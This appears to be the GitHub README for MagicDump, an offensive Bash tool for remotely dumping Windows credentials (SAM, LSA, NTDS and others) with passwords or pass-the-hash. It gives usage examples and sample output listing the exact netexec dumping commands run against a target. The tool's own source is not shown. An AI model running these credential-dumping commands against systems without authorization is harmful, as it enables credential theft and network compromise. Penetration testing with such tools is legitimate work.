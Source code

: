 # MagicDump

MagicDump is an automated tool designed to remotely dump credentials from Windows machines, including SAM, LSA, LSASS, NTDS, and DPAPI. It simplifies the process of extracting sensitive information, providing organized output and support for multiple authentication methods.

<br>

---

<br>

## Features
- **Credential Dumping**: Automates dumping of SAM, LSA, LSASS, NTDS, and DPAPI credentials.
- **Flexible Authentication**:
  - Username and Password Authentication.
  - Pass-the-Hash Authentication. 
  - (Upcoming) Pass-the-Ticket Authentication.
- **Organized Output**:
  - Logs actions in JSON format.
  - Saves dumps and logs to `~/.magicdump/`.
- **Real-Time Feedback**: Displays actions on the screen as they happen.

<br>

---

<br>

## Requirements
- Bash Shell
- Tools for credential dumping (e.g., `impacket`, `netexec`, etc.)

<br>

---

<br>

## Installation
Clone the repository:
```bash
git clone https://github.com/Mag1cByt3s/MagicDump.git
cd MagicDump
```

<br>

Make the script executable:
```bash
chmod +x MagicDump
```

<br>

---

<br>

## Usage
Run the script with the required options:
```bash
./MagicDump -t <target_ip> -u <username> [-p <password> | -H <hash>] [--local-auth] [-v]
```

<br>

### Arguments
`-t` / `--target`: Specify the target IP address of the Windows machine.
`-u` / `--username`: Specify the username to authenticate as.
`-p` / `--password`: Specify the password for authentication.
`-H` / `--hash`: Specify the NTLM hash for Pass-the-Hash authentication.
`--local-auth`: Use local authentication (optional).
`-v` / `--verbose`: Enable verbose output for debugging (optional).
`-h` / `--help`: Show usage info

<br>

---

<br>

## Examples
```bash
./MagicDump -t 192.168.1.100 -u administrator -p SuperSecretPass123
```

```bash
./MagicDump -t 192.168.1.100 -u administrator -H 'a066fbf49e79f43fffc449810227e399'
```

<br>

Output:
```bash
==============================
       MagicDump v1.0       
==============================
[INFO] Starting MagicDump against target 192.168.1.100
[INFO] Authenticating as user 'Administrator'...
[INFO] Starting SAM dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --sam > '/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] SAM dump completed successfully. Output saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[LOG] Operation: SAM, Status: success
[INFO] SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt
[INFO] Starting LSA dump using netexec...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' --lsa > '/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] LSA dump completed successfully. Output saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[LOG] Operation: LSA, Status: success
[INFO] LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt
[INFO] Starting NTDS dump using ntdsutil...
[DEBUG] Running command: nxc smb 192.168.1.100 -u Administrator -p 'SuperSecretPass' -M ntdsutil > '/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt' 2>/dev/null
[DEBUG] NTDS dump completed successfully. Output saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[LOG] Operation: NTDS, Status: success
[INFO] NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt
[INFO] Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json.
```

<br>

---

<br>

## Logfile example

```json
{
  "target_host": "192.168.1.100",
  "operation_time": "2025-01-04T14:00:00Z",
  "credentials_dumped": {
    "SAM": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt"
    },
    "LSA": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt"
    },
    "NTDS": {
      "status": "success",
      "file_path": "/home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
      "method": "ntdsutil"
    }
  },
  "warnings": [],
  "logs": [
    "Starting MagicDump against target 192.168.1.100",
    "Authenticating as user 'Administrator'...",
    "Starting SAM dump using netexec...",
    "SAM dump saved to /home/user/.magicdump/dumps/SAM_dump_192.168.1.100.txt",
    "Starting LSA dump using netexec...",
    "LSA dump saved to /home/user/.magicdump/dumps/LSA_dump_192.168.1.100.txt",
    "Starting NTDS dump using ntdsutil...",
    "NTDS dump saved to /home/user/.magicdump/dumps/NTDS_dump_192.168.1.100.txt",
    "Dumping complete. Logs saved to /home/user/.magicdump/logs/report_192.168.1.100_20250104140000.json."
  ]
}
```

<br>

---

<br>

## Roadmap
- Add support for Pass-the-Ticket authentication.
- Integrate more advanced credential dumping techniques.
- Encrypt logs and dumps for security.

<br>

---

<br>

## License
[GPLv3 License](LICENSE)

<br>

---

<br>

## Disclaimer
**MagicDump is intended for authorized use only.** Ensure you have permission before using this tool on any system.
